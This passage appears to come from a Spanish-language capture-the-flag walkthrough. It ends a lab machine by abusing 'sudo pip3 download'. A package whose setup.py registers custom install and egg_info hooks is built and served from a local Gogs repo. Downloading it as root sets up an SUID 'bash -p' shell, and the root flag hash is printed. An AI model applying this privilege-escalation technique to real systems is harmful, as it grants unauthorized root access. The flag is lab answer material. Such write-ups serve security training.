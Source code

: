 ```python
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

A continuación lo covertimos en un paquete:

```bash
python3 -m build
```

Ya solo queda crear un nuevo repo en el gogs y subir el .tar.gz que debe encontrarse en *.dist/*. Finalmente ejecutamos el siguiente comando con sudo:

```bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exploit/src/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

Y ya tenemos privilegios SUID en la [[Bash]]:

```bash
bash -p
```

Y solo queda ver el *root.txt* (`ddd6fbe43104c5b6d0ecbeaa5f35222e`). Y ya habríamos acabado la máquina!